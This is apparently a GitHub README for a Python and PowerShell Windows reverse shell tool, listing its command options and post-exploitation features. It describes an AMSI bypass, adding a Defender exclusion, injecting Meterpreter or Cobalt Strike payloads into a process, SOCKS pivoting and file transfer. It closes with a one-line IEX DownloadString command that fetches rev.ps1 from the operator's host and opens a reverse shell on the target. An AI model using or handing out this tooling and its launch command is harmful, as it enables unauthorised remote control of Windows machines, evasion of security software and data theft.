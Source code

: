 # Introduction

A small windows reverse shell project that i build during my university intership.\
It is written with Python and Powershell.\
33333333333333333333333333333333333333333 but also 7 (\~^-^)\~

# Installation

To simply install it:

1.  Clone this repo with the following code
    ```
    git clone https://github.com/Fedami/powerrevshell---rev.ps1
    ```
3.  Run the following code to install all the requirements
    ```
    pip install -r requirements.txt
    ```
3.  Run the following code to make the .py file executable or simply run it with python
    ```
    chmod +x powerrevshell.py or python3 powerrevshell.py
    ```
## Powerrevshell

![powerrevshell-start-short](https://user-images.githubusercontent.com/82824055/173030103-c57222f4-fc15-4766-bd19-64d1963d9df3.png)

# Optional argument
  -h, --help        &emsp;&emsp;&ensp;    show this help message and exit\
  -f &emsp;&emsp;&emsp;&emsp;&emsp;&emsp; smb folder for transfer and execute funciontality\
  &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;                      Enter folder name [Default: root]\
  -i local ip       &emsp;&emsp;&emsp;&nbsp;    Enter your local IP [Default: 192.168.0.114]\
  -p port           &emsp;&emsp;&emsp;&ensp;&nbsp;    listener port for reverse shell [Default: 9001]\
  -wp webport       &emsp;&nbsp;    listener port for http server [Default: 8000]\
  -sp smbport       &emsp;&ensp;     listener port for smb server [Default: 445]\
  -http             &emsp;&emsp;&emsp;&emsp;&ensp;&nbsp;    Start http web server [Default: 8000]\
  -smb              &emsp;&emsp;&emsp;&emsp;&ensp;&nbsp;    Start smb web server [Default: 445]\
  -k                &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;    If ports are being used it will kill the process to force the exexcution.

# Functionality

Powerrevshell.py comes with several function accessible via the "menu" option:

![powerrevshell-menu](https://user-images.githubusercontent.com/82824055/171123395-27647e7f-9853-43e8-adae-8ea33e231bf3.png)

### get - put

The get and put functionality are build using TCPSocket to transfer files between the machines. To prevent data loss, on each message, are sent support string and md5sum to know if the actual bytes are sent correctly.

```
get <file.txt> / put <file.txt>
```

### smb-get

The smb-get functionality simply transfer a file using the Copy-Item cmdlet to the smbserver started using impacket-smbserver.\
If you didn't start the program with the -smb switch or started youreself (impacket-smbserver) the command will fail.

```
smb-get <file.txt>
```

### down-file

The down-file functionality simply download a file from the current machine to the target machine using HTTP server with python.
If you didn't start the program with the -http switch or started youreself (python -m http.server 8000) the command will fail.

```
down-file <file.txt>
```

### load

The down-file functionality simply load a powershell script from the current machine to the target machine using HTTP server with python.
If you didn't start the program with the -http switch or started youreself (python -m http.server 8000) the command will fail.

```
load <file.ps1>
```

### amsi-bypass

The amsi-bypass functionality will try to bypass AMSI on the current shell by using the Matt Graeber amsi bypass method obfuscated with two bytes array.

```
amsi-bypass
```

### exclude

The exlucde functionality will try to exclude powershell.exe from defender, admin permission are needed.

```
exclude
```

### payload

The payload functionality will try to create a new process and inject the shell payload that can be meterpreter or cobalt strike...\
The payload must be a cs file.

```
payload <payload.cs>
```

Work used for the socks functionality: [PowerProxy by get-get-get-get](https://github.com/get-get-get-get/PowerProxy).

### socks-start

Socks-start start a socks proxy.

```
socks-start <L-PORT> <P-PORT>
```
You can also omit L-PORT and P-Port, by default L-PORT is 8080 and P-PORT is 1080.

```
socks-start
```

### socks-stop

Socks-stop will stop any running socks on the target machine that was started before.

```
socks-stop
```

### socks

Socks will list if there is a running socks proxy.

```
socks
```

### close

Close will terminate the session by killing the powershell process, if the command exclude was used it will delete the exclusion policy. Also if it was started a socks proxy it will kill it before killing the session.

```
close
```

## Rev.ps1

Rev.ps1 is the powershell script to connect back to us.\
To start the reverse shell run the following code on the target machine.

```
IEX (New-Object System.Net.WebClient).DownloadString('http://<IP>:<PORT>/rev.ps1'); Send-Shell -i <IP> -p <ShellPort>
```
